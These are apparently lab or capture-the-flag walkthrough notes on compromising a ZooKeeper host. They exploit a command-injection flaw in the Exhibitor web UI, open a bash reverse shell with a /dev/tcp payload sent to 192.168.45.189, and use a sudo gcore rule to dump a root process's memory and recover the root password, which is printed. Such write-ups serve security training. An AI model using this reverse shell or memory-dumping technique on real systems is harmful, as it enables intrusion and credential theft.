 ## Takeaway
## Metadata
- Port `2181` showing the host is running a `zookeeper` instance. While port `8080` and `8081` is running `Exhibitor` which is Web UI to manage `ZooKeeper` server instances.
	- Run `searchsploit Exhibitor` will identify it is vulnerable to `RCE`. Showing as RCE but is instead more of `Command Injection`.![[Pasted image 20240321180233.png]]
	- https://www.exploit-db.com/exploits/48654
- Running `sudo -l` as `charles` will identify that the user can run `gcore` as `root` without passwords.![[Pasted image 20240321183344.png]]
	- According to `GTFOBin`, `gcore` is used to generate core dumps of running processes.
	- `linpeas` will identify `/usr/bin/password-store` of PID `484` is ran under `root` privilege which potentially contains passwords.![[Pasted image 20240321183852.png]]
	- Run `sudo gcore 484` and running `strings core.484` can identify potential credential pair as `root:ClogKingpinInning731`![[Pasted image 20240321183957.png]]
# Exploitation
## Shell as charles
- Following the steps from https://www.exploit-db.com/exploits/48654 but use `$(/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.45.189/80 0>&1')` as command to receive a reverse shell call back.
# PrivEsc
- Run `su` and enter password `ClogKingpinInning731` to obtain a root shell.